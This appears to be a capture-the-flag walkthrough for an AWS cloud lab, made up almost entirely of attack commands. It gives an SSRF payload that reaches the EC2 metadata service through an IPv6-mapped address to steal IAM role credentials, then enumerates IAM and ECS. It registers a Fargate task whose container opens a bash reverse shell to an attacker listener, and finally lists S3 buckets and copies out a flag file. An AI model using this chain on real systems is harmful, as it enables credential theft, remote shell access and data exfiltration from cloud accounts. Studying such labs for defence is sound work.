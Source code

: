 
Go to `http://<ec2_ip_address>`

`http://<ec2_ip_address>/?url=http://[::ffff:a9fe:a9fe]/latest/meta-data/iam/security-credentials/<role>`

`aws configure --profile attacker`

`echo "aws_session_token = <token>" >> ~/.aws/credentials`

`aws --profile attacker sts get-caller-identity`

`aws --profile attacker iam get-role --role-name <role>`

`aws --profile attacker iam list-attached-role-policies --role-name <role>`

`aws --profile attacker iam list-role-policies --role-name <role>`

`aws --profile attacker iam get-role-policy --role-name <role> --policy-name <policy>`

`aws --profile attacker ecs list-clusters`

`aws --profile attacker ecs describe-clusters --clusters <cluster>`

`aws --profile attacker ecs list-container-instances --cluster arn:aws:ecs:us-east-1:<aws_id>:cluster/<cluster>`

`aws --profile attacker ecs describe-container-instances --cluster arn:aws:ecs:us-east-1:<user_id>:cluster/<cluster> --container-instances arn:aws:ecs:us-east-1:<aws-id>:container-instance/<cluster>/2d3ed51ad04847dd894dc78e263adfb3`

`aws --profile attacker ec2 describe-instances --instance-ids <instance-id>`

Attacker prepare revshell at other public ip point with `nc -lvp 4000`.

And now come back to CLI.

`aws --profile attacker ecs register-task-definition --family iam_exfiltration --task-role-arn arn:aws:iam::<userr_id>:role/<role> --network-mode "awsvpc" --cpu 256 --memory 512 --requires-compatibilities "[\"FARGATE\"]" --container-definitions "[{\"name\":\"exfil_creds\",\"image\":\"python:latest\",\"entryPoint\":[\"sh\", \"-c\"],\"command\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/<revshell_ip>/4000 0>&1\\\"\"]}]"`

`aws --profile attacker ec2 describe-subnets   `

`aws --profile attacker ecs run-task --task-definition iam_exfiltration --cluster arn:aws:ecs:us-east-1:<user_id>:cluster/<cluster> --launch-type FARGATE --network-configuration "{\"awsvpcConfiguration\":{\"assignPublicIp\": \"ENABLED\", \"subnets\":[\"<subnet>\"]}}"`

After a few minutes, the revshell will be connected by container.
Let's do it on revshell.

`apt-get update`

`apt-get install awscli`

`aws s3 ls`

`aws s3 ls s3://<bucket-name>/`

`aws s3 ls s3://<bucket-name>/secret/`

`aws s3 cp s3://<bucket-name>/secret/flag.txt .`

`cat flag.txt`
